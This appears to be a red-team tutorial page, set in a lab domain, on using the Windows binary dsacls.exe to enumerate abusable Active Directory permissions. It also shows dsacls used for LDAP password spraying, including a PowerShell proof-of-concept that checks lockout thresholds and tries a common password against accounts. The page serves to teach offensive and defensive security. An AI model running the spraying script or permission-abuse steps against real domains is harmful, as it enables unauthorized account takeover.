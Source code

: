 ```yaml
---
description: Enumeration, living off the land
---
```


# Enumerating AD Object Permissions with dsacls

It is possible to use a native windows binary (in addition to powershell cmdlet `Get-Acl`) to enumerate Active Directory object security persmissions. The binary of interest is `dsacls.exe`.

Dsacls allows us to display or modify permissions (ACLS) of an Active Directory Domain Services (AD DS).

## Execution

Let's check if user `spot` has any special permissions against user's `spotless` AD object:

{% code title="attacker@victim" %}
```csharp
dsacls.exe "cn=spotless,cn=users,dc=offense,dc=local" | select-string "spot"
```
{% endcode %}

Nothing useful:

![](<../../.gitbook/assets/Screenshot from 2019-03-19 22-46-47.png>)

Let's give user spot `Reset Password` and `Change Password` permissions on `spotless` AD object:

![](<../../.gitbook/assets/Screenshot from 2019-03-19 22-46-04.png>)

...and try the command again:

{% code title="attacker@victim" %}
```csharp
dsacls.exe "cn=spotless,cn=users,dc=offense,dc=local" | select-string "spot"
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-03-19 22-44-21.png>)

### Full Control

All well known (and abusable) AD object permissions should be sought here. One of them is `FULL CONTROL`:

{% code title="attacker@victim" %}
```csharp
dsacls.exe "cn=spotless,cn=users,dc=offense,dc=local" | select-string "full control"
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-03-19 22-54-36.png>)

### Add/Remove self as member

{% code title="attacker@victim" %}
```csharp
dsacls.exe "cn=domain admins,cn=users,dc=offense,dc=local" | select-string "spotless"
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-03-19 22-57-50.png>)

### WriteProperty/ChangeOwnerShip

![](<../../.gitbook/assets/Screenshot from 2019-03-19 23-00-04.png>)

Enumerating AD object permissions this way does not come in a nice format that can be piped between powershell cmd-lets, but it's still something to keep in mind if you do not the ability to use tools like powerview or ActiveDirectory powershell cmdlets or if you are trying to `LOL`.

For more good privileges to be abused:

{% content-ref url="privileged-accounts-and-token-privileges.md" %}
[privileged-accounts-and-token-privileges.md](privileged-accounts-and-token-privileges.md)
{% endcontent-ref %}

{% content-ref url="abusing-active-directory-acls-aces.md" %}
[abusing-active-directory-acls-aces.md](abusing-active-directory-acls-aces.md)
{% endcontent-ref %}

## Password Spraying Anyone?

As a side note, the `dsacls` binary could be used to do LDAP password spraying as it allows us to bind to an LDAP session with a specified username and password:

{% code title="incorrect logon" %}
```csharp
dsacls.exe "cn=domain admins,cn=users,dc=offense,dc=local" /user:spotless@offense.local /passwd:1234567
```
{% endcode %}

![Logon Failure](<../../.gitbook/assets/Screenshot from 2019-03-19 23-09-12.png>)

{% code title="correct logon" %}
```csharp
dsacls.exe "cn=domain admins,cn=users,dc=offense,dc=local" /user:spotless@offense.local /passwd:123456
```
{% endcode %}

![Logon Successful](<../../.gitbook/assets/Screenshot from 2019-03-19 23-09-59.png>)

### Dirty POC idea for Password Spraying:

{% code title="attacker@victim" %}
```csharp
$domain = ((cmd /c set u)[-3] -split "=")[-1]
$pdc = ((nltest.exe /dcname:$domain) -split "\\\\")[1]
$lockoutBadPwdCount = ((net accounts /domain)[7] -split ":" -replace " ","")[1]
$password = "123456"

# (Get-Content users.txt)
"krbtgt","spotless" | % {
    $badPwdCount = Get-ADObject -SearchBase "cn=$_,cn=users,dc=$domain,dc=local" -Filter * -Properties badpwdcount -Server $pdc | Select-Object -ExpandProperty badpwdcount
    if ($badPwdCount -lt $lockoutBadPwdCount - 3) {
        $isInvalid = dsacls.exe "cn=domain admins,cn=users,dc=offense,dc=local" /user:$_@offense.local /passwd:$password | select-string -pattern "Invalid Credentials"
        if ($isInvalid -match "Invalid") {
            Write-Host "[-] Invalid Credentials for $_ : $password" -foreground red
        } else {
            Write-Host "[+] Working Credentials for $_ : $password" -foreground green
        }
    }
}
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-03-20 00-10-10.png>)

## References

{% embed url="https://support.microsoft.com/en-gb/help/281146/how-to-use-dsacls-exe-in-windows-server-2003-and-windows-2000" %}

